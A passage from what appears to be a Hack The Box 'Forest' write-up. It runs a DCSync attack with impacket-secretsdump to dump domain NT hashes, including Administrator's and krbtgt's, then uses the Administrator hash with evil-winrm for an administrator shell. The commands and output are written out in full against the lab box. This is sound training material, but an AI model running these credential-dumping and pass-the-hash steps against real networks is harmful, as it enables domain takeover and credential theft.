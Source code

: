 I decided to use `impacket-secretsdump` to perform DCSync attack and get all the domain users NT hashes:

```bash
┌──(kali㉿kali)-[~/Public/windows/tools]
└─$ impacket-secretsdump htb.local/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
...
[*] Cleaning up... 
```

**NOTE:** The box will reset all the changes to the AD every 1 minute or so, keep that in mind while executing the commands because you won't make it if you are slow.

Since we have the NT hash of the domain administrator, we can impersonate him and get the flag!

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Forest]
└─$ evil-winrm -i 10.10.10.161 -u administrator -H '32693b11e6aa90eb43d32c72a07ceea6' -s /home/kali/Documents/HTB/Forest

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```
